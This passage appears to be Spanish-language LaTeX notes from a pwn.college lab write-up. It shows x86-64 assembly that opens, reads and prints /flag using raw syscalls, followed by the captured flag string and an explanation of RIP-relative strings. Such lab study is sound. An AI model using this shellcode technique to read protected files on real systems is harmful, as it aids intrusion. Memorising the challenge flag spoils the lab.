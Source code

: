 \begin{codebox}[ASM]
	.intel_syntax noprefix

	mov BYTE PTR [rsp], '/'
	mov BYTE PTR [rsp+1], 'f'
	mov BYTE PTR [rsp+2], 'l'
	mov BYTE PTR [rsp+3], 'a'
	mov BYTE PTR [rsp+4], 'g'
	mov BYTE PTR [rsp+5], 0

	mov rax, 2
	mov rdi, rsp
	mov rsi, 0
	syscall

	mov rdi, rax
	mov rax, 0
	mov rsi, rsp
	mov rdx, 128
	syscall

	mov rdx, rax
	mov rax, 1
	mov rdi, 1
	mov rsi, rsp
	syscall

	mov rax, 60
	mov rdi, 42
	syscall
\end{codebox}

\begin{flagbox}{Flag Capturada}
	pwn.college{ksqeBnvOJWvAvIls3V_A_gdsD9k.0lM0czMywSMycjN4EzW}
\end{flagbox}

\subsection{RIP - Relative Strings}\label{subsec:rip_relative_strings}

El problema que presentamos en la sección anterior
\ref{subsec:hardcoding_the_filename}, es que si escribimos un error al escribir
la dirección del texto, sería muy teidoso encontrar su error, o si el nombre
del archivo es muy largo.

Por lo que, en el código ensamblador, se puede contener bytes que no esten
destinados a ejecutarse, estos serían colocados después de la llamada al
sistema \textbf{\textit{exit}}.

\begin{codebox}[ASM]{Ejemplo de bits adicionales}
	_start:
	...
	mov rax, 60
	syscall
	path:
	.asciz "/flag"
\end{codebox}

En este caso, la directiva \textbf{\textit{.asciz}} va a contener los bytes de
la cadena, junto con el 0 de la termincación.

Y la etiqueta \textbf{\textit{path}} marca donde comienzan esos bytes.

Esto era factible en programas anteriores, donde los programas siempre se
cargaban en la misma dirección de memoria, por lo que se podría escribir
esto de aquí:

\begin{codebox}[ASM]{}
	_start:
	...
	mov rdi, path
	path:
	.asciz "/flag"
\end{codebox}


